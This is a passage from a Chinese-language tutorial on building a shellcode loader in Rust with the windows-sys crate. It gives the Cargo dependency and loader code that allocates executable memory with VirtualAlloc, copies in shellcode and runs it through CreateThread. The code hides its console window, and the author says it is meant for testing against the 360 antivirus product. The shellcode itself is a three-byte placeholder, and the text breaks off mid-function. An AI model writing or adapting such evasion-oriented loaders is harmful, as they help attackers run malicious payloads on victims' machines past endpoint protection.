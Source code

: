跟其他大多数的语言一样，rust 也集成了 windows 的 api，这样我们就可以来调用加载我们的 shellcode，这里我们用到两个库 windows-sys 和 winapi。

### windows-sys

首先要引用==windows-sys==，要引用它，我们往==Cargo.toml==引入以下依赖

```bash
windows-sys = { version = "0.48.0", features = ["Win32_Foundation", "Win32_System_Threading", "Win32_Security", "Win32_System_Memory"] }
```

下面是一个基本的加载器，我们以最基础的 VirtualAlloc 来测试 360 最新版

```bash
#![windows_subsystem = "windows"]

use windows_sys; 
use std::{ptr, ffi::c_void};

fn main() {
    let shellcode: [u8; 3] = [ 0xfc, 0x48, 0x83];  // shellcode

    // 执行shellcode
    exec(&shellcode);
}

fn exec(shellcode: &[u8]) {
    unsafe {
        // 使用 VirtualAlloc 初始化 shellcode
        let exec_shellcode = windows_sys::Win32::System::Memory::VirtualAlloc(
            ptr::null_mut(), // 分配内存
            shellcode.len(), 
            windows_sys::Win32::System::Memory::MEM_COMMIT
                | windows_sys::Win32::System::Memory::MEM_RESERVE, 
            windows_sys::Win32::System::Memory::PAGE_EXECUTE_READWRITE, 
        );

        // 复制shellcode到RWX内存
        std::ptr::copy(
            shellcode.as_ptr(),
            exec_shellcode as *mut u8,
            shellcode.len(),
        );

        // 使用CreateThread来执行一个线程
        // 使用transmute转换为函数指针
        let exec_shellcode_pointer: extern "system" fn(*mut c_void) -> u32 =
            { std::mem::transmute(exec_shellcode) };
        let thread_handle = windows_sys::Win32::System::Threading::CreateThread(
            ptr::null_mut(),
            0,
            Some(exec_shellcode_pointer),
            ptr::null_mut(),
            0,
            ptr::null_mut(),
        );

        windows_sys::Win32::System::Threading::WaitForSingleObject(
            thread_handle,
            windows_sys::Win32::System::Threading::INFINITE,
        );

        // 释放之前分配的内存并关闭线程句柄
        windows_sys::Win32::System::Memory::VirtualFree(
            exec_shellcode,
            0,
```